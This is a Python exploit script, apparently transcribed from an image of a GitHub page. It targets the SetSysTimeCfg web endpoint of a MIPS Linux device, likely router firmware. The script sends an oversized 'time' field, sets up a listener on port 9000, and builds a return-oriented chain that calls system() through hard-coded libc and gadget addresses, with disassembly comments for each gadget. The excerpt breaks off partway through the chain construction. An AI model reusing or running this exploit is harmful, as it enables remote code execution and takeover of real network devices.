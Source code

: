 ```

    listener = listen(9000)
    context(arch = 'mips',endian = 'little',os = 'linux')

    def sink(        payload    ):    
        url = f"http://{host}:{port}/goform/SetSysTimeCfg"
        _payload = b''
        _payload = b'retr0reg' + b":" + payload
        data = {
            b"timeType":b"manual",
            b"time":_payload
        }

        def send_request():
            try:
                requests.post(url=url, data=data)
            except Exception as e:
                print(f"Request failed: {e}")

        thread = threading.Thread(target=send_request)
        thread.start()

    def _rop(ropcmd: RopCmd):

        # rop-chain:
        # lw $s4 0x48; jr 0x5c
        # move $t9,$s4; jr 0x34($sp)
        # addiu $a0,$sp,0x28+var_C | jr 0x24($sp)
        # 

        # 77f59000-77fe5000 r-xp 00000000 08:01 788000 
        libc_base       = 0x77f59000        
        _system         = 0x004E630

        t9_target       = 0x77fa7630
        ret_offset      = 0x7b #  -> b'bgaa'
        sp_offset       = 0x7f # --> b'bhaa'

        sp2             = 0x60  # LOAD:0007EB7C 
        sp3             = 0x38  # LOAD:0001B038 

        print('\n')

        log.success("Exploit started!")
        log.info(f"retaddr offset: {hex(ret_offset)}")
        log.info(f"$sp offset: {hex(sp_offset)}")
        log.info(f"libc_base -> {hex(libc_base)}")

        lw_s4_0x48_JR_5Csp    = 0x0007E8C8 # lw $s4,0x38+var_s10($sp) | jr 0x5C($sp)
        # LOAD:0007E8CC                 move    $v0, $s0
        # LOAD:0007E8D0                 lw      $fp, 0x38+var_s20($sp)
        # LOAD:0007E8D4                 lw      $s7, 0x38+var_s1C($sp)
        # LOAD:0007E8D8                 lw      $s6, 0x38+var_s18($sp)
        # LOAD:0007E8DC                 lw      $s5, 0x38+var_s14($sp)
        # LOAD:0007E8E0                 lw      $s4, 0x38+var_s10($sp)
        # LOAD:0007E8E4                 lw      $s3, 0x38+var_sC($sp)
        # LOAD:0007E8E8                 lw      $s2, 0x38+var_s8($sp)
        # LOAD:0007E8EC                 lw      $s1, 0x38+var_s4($sp)
        # LOAD:0007E8F0                 lw      $s0, 0x38+var_s0($sp)
        # LOAD:0007E8F4                 jr      $ra
        # LOAD:0007E8F8                 addiu   $sp, 0x60

        t9_EQ_s4_JR_1C_p_18   = 0x0001B014 # move $t9,$s4             | jr 0x1C+0x18($sp)
```